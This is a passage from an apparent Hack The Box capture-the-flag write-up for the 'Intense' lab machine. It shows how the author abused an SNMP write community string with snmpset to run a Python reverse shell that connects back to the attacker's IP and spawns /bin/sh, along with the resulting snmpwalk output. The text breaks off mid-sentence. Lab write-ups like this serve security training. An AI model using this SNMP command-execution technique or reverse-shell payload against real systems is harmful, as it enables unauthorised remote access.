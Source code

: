 Unfortunately the version of `nc` on the victim's computer did not have `-e` functionality, so I wasn't able to get it to send me a reverse shell.

## Getting a shell

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195 nsExtendOutput1                                   2 ⚙
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test2" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."command" = STRING:   File "<string>", line 1
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test2" = STRING: Hello, world!
Hi there
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."command" = STRING:   File "<string>", line 1
    "import
          ^
SyntaxError: EOL while scanning string literal
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test1" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test2" = INTEGER: 2
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."command" = INTEGER: 4
NET-SNMP-EXTEND-MIB::nsExtendResult."test1" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendResult."test2" = INTEGER: 8960
NET-SNMP-EXTEND-MIB::nsExtendResult."command" = INTEGER: 1

┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195 nsExtendOutput1                                   2 ⚙
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test2" = STRING: Hello, world!
Timeout: No Response from 10.10.10.195
```

I tried sending a reverse shell, but got an End-of-Line error

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.10.10.195 'nsExtendStatus."command"' = createAndGo 'nsExtendCommand."command"' = '/usr/bin/python3' 'nsExtendArgs."command"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.15.100\",55541));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"' 
NET-SNMP-EXTEND-MIB::nsExtendStatus."command" = INTEGER: createAndGo(4)
NET-SNMP-EXTEND-MIB::nsExtendCommand."command" = STRING: /usr/bin/python3
NET-SNMP-EXTEND-MIB::nsExtendArgs."command" = STRING: -c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.15.100\",55541));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"
```

connected to my

after trying a few things realized that some of the internal quotes needed to be escaped for it to run properly
